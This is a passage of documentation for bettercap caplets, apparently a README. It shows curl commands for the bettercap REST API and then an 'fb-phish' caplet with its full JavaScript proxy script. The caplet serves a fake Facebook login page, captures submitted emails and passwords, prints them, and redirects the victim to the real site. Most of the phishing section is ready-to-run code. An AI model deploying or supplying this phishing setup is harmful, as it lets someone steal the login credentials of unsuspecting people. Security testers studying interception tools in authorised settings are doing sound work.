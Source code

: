     curl -k --user bcap:bcap https://bettercap-ip:8083/api/session -H "Content-Type: application/json" -X POST -d '{"cmd":"net.probe on"}'

Get last 50 events:

    curl -k --user bcap:bcap https://bettercap-ip:8083/api/events?n=50

Clear events:

    curl -k --user bcap:bcap -X DELETE https://bettercap-ip:8083/api/events

<center>
    <img src="https://pbs.twimg.com/media/DTAreSCX4AAXX6v.jpg:large" width="100%"/>
</center>

#### fb-phish.cap

This caplet will create a fake Facebook login page on port 80, intercept login attempts using the `http.proxy`, print credentials and redirect the target to the real Facebook.

<center>
    <img src="https://pbs.twimg.com/media/DTY39bnXcAAg5jX.jpg:large" width="100%"/>
</center>

Make sure to create the folder first:

    $ cd www/
    $ make

```sh
set http.server.address 0.0.0.0
set http.server.path www/www.facebook.com/

set http.proxy.script fb-phish.js

http.proxy on
http.server on
```

The `fb-phish.js` proxy script file:

```javascript
function onRequest(req, res) {
    if( req.Method == "POST" && req.Path == "/login.php" && req.ContentType == "application/x-www-form-urlencoded" ) {
        var form = req.ParseForm();
        var email = form["email"] || "?", 
            pass  = form["pass"] || "?";

        log( R(req.Client), " > FACEBOOK > email:", B(email), " pass:'" + B(pass) + "'" );

        headers = res.Headers.split("\r\n")
        for (var i = 0; i < headers.length; i++) {
            header_name = headers[i].replace(/:.*/, "")
            res.RemoveHeader(header_name)
        }
        res.Status = 301;
        res.SetHeader("Location", "https://www.facebook.com")
        res.SetHeader("Connection", "close")
    }
}
```
